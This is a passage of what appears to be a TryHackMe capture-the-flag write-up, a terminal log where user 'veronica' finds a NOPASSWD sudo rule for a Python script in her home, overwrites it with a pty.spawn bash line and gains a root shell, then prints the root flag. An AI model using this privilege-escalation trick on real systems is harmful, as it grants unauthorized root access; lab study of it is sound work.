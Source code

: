 ```bash
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*  *	* * *	root	cd /root/Lucrecia && bash lucre.sh
#
veronica@ubuntu:~$ sudo -l
sudo -l
Matching Defaults entries for veronica on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User veronica may run the following commands on ubuntu:
    (ALL : ALL) ALL
    (root : root) NOPASSWD: /usr/bin/python3.5 /home/veronica/base.py
veronica@ubuntu:~$ echo 'import pty;pty.spawn("/bin/bash")' > base.py
echo 'import pty;pty.spawn("/bin/bash")' > base.py
bash: base.py: Permission denied
veronica@ubuntu:~$ rm base.py
rm base.py
rm: remove write-protected regular file 'base.py'? yes
yes
veronica@ubuntu:~$ echo 'import pty;pty.spawn("/bin/bash")' > base.py
echo 'import pty;pty.spawn("/bin/bash")' > base.py
veronica@ubuntu:~$ cat base.py
cat base.py
import pty;pty.spawn("/bin/bash")
veronica@ubuntu:~$ sudo /usr/bin/python3.5 /home/veronica/base.py
sudo /usr/bin/python3.5 /home/veronica/base.py
root@ubuntu:~# ls
ls
base.py  Documents  examples.desktop  Music     Public       Templates  Videos
Desktop  Downloads  ghidra_9.0        Pictures  __pycache__  user.txt
root@ubuntu:~# pwd
pwd
/home/veronica
root@ubuntu:/# cd /root
cd root
root@ubuntu:/root# ls
ls
Lucrecia  root.txt
root@ubuntu:/root# cat root.txt
cat root.txt
THM{02EAD328400C51E9AEA6A5DB8DE8DD499E10E975741B959F09BFCF077E11A1D9}
root@ubuntu:/root# 
```



<br>
<br>
